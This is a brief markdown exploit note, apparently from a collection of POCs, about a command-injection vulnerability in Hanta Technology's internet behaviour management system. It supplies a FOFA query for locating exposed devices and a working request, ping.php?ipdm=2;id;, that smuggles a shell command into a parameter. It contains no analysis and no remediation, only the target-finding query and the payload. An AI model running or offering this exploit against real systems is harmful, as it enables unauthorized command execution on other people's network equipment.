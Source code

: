 # 汉塔科技 上网行为管理系统 命令执行漏洞

## 网络测绘

fofa: app="汉塔科技上网行为管理系统"

## POC / EXP

```
/dgn/dgn_tools/ping.php?ipdm=2;id;
```